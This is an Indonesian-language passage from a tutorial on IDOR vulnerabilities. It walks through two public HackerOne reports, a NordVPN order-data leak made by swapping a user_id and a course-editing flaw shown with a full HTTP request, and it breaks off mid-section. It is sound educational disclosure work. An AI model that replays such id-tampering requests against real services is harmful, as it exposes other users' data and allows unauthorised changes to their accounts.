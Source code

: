 kemudian attacker mengganti **user_id** ke **89495247 (Victims account)**, output nya seperti ini :

```
{
"id": 42616142,
"user_id": 89495247,
"confirmation": {
    "id": 23093800,
    "created_at": "2019-12-04 17:16:48",
    "updated_at": "2019-12-04 17:16:48",
    "type": "redirect_post",
    "value": "{\"url\":\"https:\\/\\/www.coinpayments.net\\/index.php\",\"parameters\":{\"cmd\":\"_pay\",\"reset\":1,\"email\":\"hackerhacker@test.pl\",\"merchant\":\"e64a9629f9a68cdeab5d0edd21b068d3\",\"currency\":\"USD\",\"amountf\":125.64,\"item_name\":\"VPN order\",\"invoice\":\"49478089\",\"success_url\":\"https:\\/\\/join.nordvpn.com\\/payments\\/callback\\/4513bd083a97e1b5c23c69096d89ac80\",\"cancel_url\":\"https:\\/\\/join.nordvpn.com\\/order\\/error\\/?error_alert=payment&eu=0\",\"want_shipping\":0}}"
}
}
```

Impact yang terjadi dikarenakan kerentanan ini :

- Pencurian sensitive data milik costumer

### 2. [#227522 IDOR in editing courses (Hackerone)](https://hackerone.com/reports/227522)

Lanjut ke contoh kedua, attacker dapat mengedit hasil kursus (course) user lain, yang bisa membuat **Integritas** sebuah web tercoreng.

```
POST /instellingen/addcursus HTTP/1.1
Host: mijn.werkenbijdefensie.nl
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:53.0) Gecko/20100101 Firefox/53.0
Accept: */*
Accept-Language: nl,en-US;q=0.7,en;q=0.3
Referer: https://mijn.werkenbijdefensie.nl/instellingen/gegevens/
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-CSRF-TOKEN: 34eb64be-ed52-442a-b945-f94b516da205
X-Requested-With: XMLHttpRequest
Content-Length: 77
Cookie: [cookiedata]
Connection: close

id=92973&name=test2&behaald=0&jaar=2022&omschrijving=test2&resultaat=test2%0A
```

dari data diatas kita dapat tarik kesimpulan bahwa id **92973** merupakan sebuah **id** kursus yang ada di website itu.

_Attacker_ dapat menambahkan kursus lain lalu melihat isinya dengan bantuan aplikasi seperti burp suite, OWASP ZAP, Intruder, dsb

Impact :

